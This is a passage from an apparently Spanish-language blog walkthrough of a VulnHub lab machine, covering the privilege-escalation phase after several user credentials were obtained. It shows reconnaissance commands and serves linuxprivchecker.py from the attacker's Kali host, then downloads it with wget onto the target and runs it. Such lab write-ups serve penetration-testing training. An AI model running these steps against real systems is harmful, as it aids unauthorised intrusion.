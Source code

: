 ![placeholder]({{ site.url }}/assets/img/0038_201080607_0010.png)

Entonces, recopilando, tenemos 3 credenciales (las de elliot, jc y seb); un documento diciendo que bob es el administrador y unos cuantos ficheros de bob.

# Escalada de privilegios

En la máquina de la [entrada anterior](https://livefromsec.github.io/2018-06-04/vulnhub_walkthrough_basic_pentesting) esto no era un problema, porque el servicio corría como root, por lo que al conseguir explotarlo nuestra shell era root.

Ahora tenemos que conseguir esa shell de root, con una escalada de privilegios (desde la cuenta de jc, seb o elliot, ya que tenemos sus credenciales). Vamos a ver qué kernel corre, por si tuviese vulnerabilidades conocidas:
* _uname -a_

![placeholder]({{ site.url }}/assets/img/0039_201080607_0011.png)

Está actualizado, así que mejor centrarse en otras opciones. Los scripts que había en python sugerían correrlos con sudo, pero ninguno de los usuarios para los que tenemos credenciales puede hacerlo; además no se pueden modificar y en el crontab no se les llama...

Miro a ver si netstat muestra algún puerto escuchando localmente:
* _netstat -ano_

¿Command not found? ¿Netstat? Investigando un poco, está obsoleto y su substituto es "ss". Algo nuevo que aprendemos con esta máquina :)
* _ss_

No muestra nada diferente.

En este punto podemos usar un script que revisa los principales puntos para hacer la escalada de privilegios en sistemas linux. Hay varios, yo voy a usar linuxprivchecker que para mí se convirtió en herramienta imprescindible cuando estaba haciendo el OSCP.

Lo descargamos en /tmp desde la máquina vulnerable con wget, sirviéndolo desde la máquina Kali con SimpleHTTP:
* _python -m SimpleHTTP 80_ [en la máquina Kali]
* _wget http://ip_de_kali/linuxprivchecker.py_ [en la máquina vulnerable]

![placeholder]({{ site.url }}/assets/img/0040_201080607_0012.png)

Lo ejecutamos:
* _python linuxprivchecker.py_

y viendo los resultados, a priori no hay nada que resalte mucho.

Así que toca hacer recapitulación... ¿qué tenemos? Las claves de 3 de los 4 usuarios, dos scripts en python que no hacen nada y que no están en el crontab, un fichero cifrado y un fichero que imprime frases absurdas en pantalla.

![placeholder]({{ site.url }}/assets/img/0041_201080607_0013.png)

**En este punto empezamos a sudar viendo que puede que la máquina se resuelva descifrando el fichero... lo que puede implicar "idea feliz".**
